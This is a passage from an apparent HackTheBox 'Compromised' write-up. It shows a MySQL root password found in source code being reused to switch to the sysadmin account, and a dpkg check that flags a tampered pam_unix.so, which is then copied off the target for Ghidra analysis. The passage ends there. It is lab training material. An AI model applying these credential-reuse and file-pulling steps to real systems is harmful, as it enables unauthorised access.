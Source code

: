 we got password for mysql

`mysql", "-u", "root", "--password=3*NLJE32I$Fe`

lets use this creds for sysadmin.

```shell
mysql@compromised:~$ su sysadmin
Password: 
sysadmin@compromised:/var/lib/mysql$ whoami
sysadmin
sysadmin@compromised:/var/lib/mysql$ cd
sysadmin@compromised:~$ ls
user.txt
```
and we got the user.

## Elevating privilige: sysadmin -> root

### Enumeration

As the machine name is compromised , lets check what files are changed when this machine was compromised.


```shell
sysadmin@compromised:~$ dpkg -V 2>/dev/null
??5??????   /boot/System.map-4.15.0-99-generic
??5?????? c /etc/apache2/apache2.conf
??5?????? c /etc/apache2/sites-available/000-default.conf
??5??????   /boot/vmlinuz-4.15.0-101-generic
??5?????? c /etc/sudoers
??5?????? c /etc/sudoers.d/README
??5?????? c /etc/at.deny
??5?????? c /etc/iscsi/iscsid.conf
??5??????   /boot/vmlinuz-4.15.0-99-generic
??5??????   /bin/nc.openbsd
??5??????   /boot/System.map-4.15.0-101-generic
??5??????   /var/lib/polkit-1/localauthority/10-vendor.d/systemd-networkd.pkla
??5??????   /lib/x86_64-linux-gnu/security/pam_unix.so
??5?????? c /etc/apparmor.d/usr.sbin.mysqld
??5?????? c /etc/mysql/mysql.conf.d/mysqld.cnf
```


`pam_unix.so` looks intresting , lets check this one first 
`??5??????   /lib/x86_64-linux-gnu/security/pam_unix.so`.

lets copy this file to our machine and enum.

```shell
sysadmin@compromised:~$ cp /lib/x86_64-linux-gnu/security/pam_unix.so /dev/shm

┌─[oxy@oxy]─[~/Practice/hackthebox/machine/compromized]
└──╼ $scp sysadmin@10.10.10.207:/dev/shm/pam_unix.so .
sysadmin@10.10.10.207's password: 
pam_unix.so                                                                                                                                                 100%  194KB  90.1KB/s   00:02    
┌─[oxy@oxy]─[~/Practice/hackthebox/machine/compromized]
└──╼ $
```
lets fire ghidra a load this file.
